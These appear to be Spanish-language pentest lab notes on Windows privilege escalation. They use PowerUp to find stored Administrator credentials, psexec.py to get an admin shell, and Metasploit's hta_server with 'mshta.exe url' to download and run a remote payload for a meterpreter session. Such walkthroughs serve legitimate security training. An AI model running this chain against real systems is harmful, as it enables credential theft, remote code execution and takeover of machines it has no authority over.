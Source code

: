Script automatizado para poder detectar vectores de escalada de privilegios en máquinas windows.

En el ejemplo se ha ejecutado así (el script estaba en C:\Users\student\Desktop\Powersploit\Privesc):

```powershell
. .\PowerUp.ps1
Invoke-PrivescAudit
```

Ejemplo de salida:
![[Pasted image 20250213092857.png]]

Aquí se pueden observar las credenciales del usuario Administrador. Podemos intentar iniciar sesión mediante.

```bash
psexec.py administrator@ip
```

Y así obtener una shell interactiva con permisos de administrador. También podemos lograr a partir de esta shell un meterpreter. Para ello vamos a metasploit.

```bash
msfconsole
use exploit/windows/misc/hta_server
configure
exploit
```

Esto nos dará una url que tenemos que utilizar en la shell con permisos de administrador de windows.

```powershell
mshta.exe url
```

Y si volvemos a metasploit ya tendremos nuestra sesión con meterpreter.
